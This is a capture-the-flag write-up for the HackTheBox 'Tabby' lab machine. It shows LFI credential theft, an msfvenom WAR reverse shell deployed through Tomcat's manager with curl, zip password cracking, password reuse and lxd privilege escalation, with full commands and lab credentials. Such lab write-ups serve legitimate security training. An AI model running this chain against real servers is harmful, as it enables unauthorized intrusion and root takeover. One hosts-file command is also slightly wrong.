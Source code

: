 ```yaml
---
Tags: HackTheBox Easy Linux LFI WAR tomcat cracking-zip-files lxd-privesc  B2R
Alias: Tabby - 10.10.10.194 
---
```


# 10.10.10.194 - Tabby [Easy]

^780615

![tabby.png](tabby.png)

***

### Improved skills:
- LFI
- Tomcat WAR exploitation
- Cracking .zip files
- lxd Privilege Escalation

### Used tools:
- nmap
- gobuster
- msfvenom
- LinEnum.sh
- fcrackzip

___


## Introduction & Foothold

**Tabby** is an _easy_ HTB machine focused on the manually exploitation of a **Tomacat** server using a **.WAR** reverse shell and the exploitation of a misconfigured group permission which allow to escalate to root abusing **lxd** rights.

Let's start as always with an **nmap** scan:

```bash
root@kali:~/HackTheBox# nmap -Pn -sCV -p22,80,8080 -oN nmap/Basic_10.10.10.194.nmap 10.10.10.194
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat 9.0.31
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We find out that there are three services running on the box, **two of which** are **web servers** (an *Apache httpd 2.4.41* and an *Apache Tomcat 9.0.31*). 

Visiting the first site we discover that the **host** of the box is **_megahosting.htb_**. In order to properly enumerate the box we need to resolve it correctly

`cat "10.10.10.194    megahosting.it" >> /etc/hosts`

Now that we are effectively ready, let's start enumerating every page of the first web server.

![2020-06-22-14-48-13.png](2020-06-22-14-48-13.png)

After few minutes I found the **_http://megahosting.htb/news.php?file=statement_** page, which results to be vulnerable to **Local File Inclusion** (LFI).

![2020-06-22-14-59-19.png](2020-06-22-14-59-19.png)

![2020-06-22-14-59-41.png](2020-06-22-14-59-41.png)

Because we got an LFI vulnerability, the logical next step was to try to exploit it in order to get a Remote Code Execution, but unfortunately none of the existing methods worked... so I decided to start to enumerate the second web server (**tomcat**), looking for another entry point.

```bash

root@kali:~/HackTheBox# gobuster dir -u http://10.10.10.194:8080/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x .php,.html,.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.194:8080/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,html,txt
[+] Timeout:        10s
===============================================================
2020/06/22 16:05:04 Starting gobuster
===============================================================
/index.html (Status: 200)
/docs (Status: 302)
/examples (Status: 302)
/manager (Status: 302)
```

Among all the various directories, *__/manager__* immediately caught my attention: trying to logging in, the server reveals which file contains the credentials, allowing us to use the **LFI** to get them.

![2020-06-22-16-11-37.png](2020-06-22-16-11-37.png)

 Finding ***tomcat-users.xml*** was a pain as the installation of the web server was done *without following standards paths and rules*, however, after a couple of hours I was able to read the file, located in ***/usr/share/tomcat9/etc/tomcat-users.xml***

![2020-06-22-16-45-05.png](2020-06-22-16-45-05.png)

![2020-06-22-16-45-57.png](2020-06-22-16-45-57.png)

Good! Now we are able to login into the ***/manager*** directory and proceeds.

Since the tomcat user are assigned the roles of **admin-gui** and **manager-script**, he has the permission to access the *host-manager webapp via web gui* (from which nothing can be done) but also to interact ***via cli with the manager webapp***, which allows us to upload **.war files** to the server (see the [official documentation](https://tomcat.apache.org/tomcat-7.0-doc/manager-howto.html)). 

Once we find the way, let's **create our reverse shell** through **msfconsole**

```bash
root@kali:/var/www/html#  msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.18 LPORT=9876 -f war > maoutis.war
Payload size: 1095 bytes
Final size of war file: 1095 bytes

root@kali:/var/www/html# ls -al maoutis.war 
-rw-r--r-- 1 root root 1095 Jun 29 19:08 maoutis.war
```

load it on the server

```bash
root@kali:~/HackTheBox/Machine/Tabby/files# curl -u 'tomcat':'$3cureP4s5w0rd123!' -T maoutis.war 'http://10.10.10.194:8080/manager/text/deploy?path=/maoutis'
OK - Deployed application at context path [/maoutis]
root@kali:~/HackTheBox/Machine/Tabby/files# curl -u 'tomcat':'$3cureP4s5w0rd123!' http://10.10.10.194:8080/manager/text/list
OK - Listed applications for virtual host [localhost]
/:running:0:ROOT
/maoutis:running:0:maoutis
/examples:running:0:/usr/share/tomcat9-examples/examples
/host-manager:running:1:/usr/share/tomcat9-admin/host-manager
/manager:running:0:/usr/share/tomcat9-admin/manager
/docs:running:0:/usr/share/tomcat9-docs/docs
and run it to get access as *tomcat* user.
```

```bash
root@kali:~/HackTheBox/Machine/Tabby/files# curl -u 'tomcat':'$3cureP4s5w0rd123!' http://10.10.10.194:8080/maoutis/
```

```bash
root@kali:~# nc -lvp 9876
python3 -c 'import pty; pty.spawn("/bin/bash")'
tomcat@tabby:/var/lib/tomcat9$ export TERM=screen
CTRL+Z
root@kali:~/HackTheBox# stty raw -echo
root@kali:~/HackTheBox# fg

tomcat@tabby:/var/lib/tomcat9$ 
```



## Lateral Movement to ash

Once gained the shell, further enumeration reveals that the user of the box is **ash**.

Running **LinEnum.sh** we discovered a **.zip backup file** inside ***/var/www/html/files/*** which require to be cracked in order to be unzipped. Let's use **fcrackzip** in order to crack the archive.

```bash
root@kali:~/HackTheBox/Machine/Tabby/files# fcrackzip -u -D -p '/usr/share/wordlists/rockyou.txt' 16162020_backup.zip 

PASSWORD FOUND!!!!: pw == admin@it
```

Password found! While inside the archive we didn't find anything useful, trying to use the password to switch to **ash** reveals that the same *password has been reused*.

```bash
tomcat@tabby:/var/www/html/files$ su ash                                                                             
Password: admin@it                                                                                                           
ash@tabby:/var/www/html/files$ 
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```

Well done! We are ash!



## Privilege Escalation

Running again **LinEnum.sh** it reveals that we are members of the **lxd group** and that exists a way to ***abuse this permission*** in order *to became root*.
Searching on Google I found [this](https://www.hackingarticles.in/lxd-privilege-escalation/) article, which describes how an account on the system that is a member of the lxd group is able to escalate the root privilege by exploiting the features of LXD.

1. **Download** the **lxd-alpine-builder** locally on the kali machine and built it as root

```bash
$git clone https://github.com/saghul/lxd-alpine-builder.git
$cd lxd-alpine-builder
$sudo bash build-alpine
```

    Probably will appear errors like *"tar: Ignoring unknow ... "*. Don't worry and continue     with the privilege escalation process.

2. **Upload** the **.tar** file on the **ash home** directory and **import** it **inside lxc**

![2020-06-29-23-27-45.png](2020-06-29-23-27-45.png)

Once finished, we will be root!



## Trophy

> If you can't give me poetry, can't you give me poetical science?  
> \- Ada Lovelace



## License

Author: 0x*bro*
<a rel="license" href="http://creativecommons.org/licenses/by-nc/4.0/">
<img alt="Creative Commons Licence" style="border-width:0" src="https://i.creativecommons.org/l/by-nc/4.0/88x31.png" /></a>
This work is licensed under a <a rel="license" href="http://creativecommons.org/licenses/by-nc/4.0/">Creative Commons Attribution-NonCommercial 4.0 International License</a>.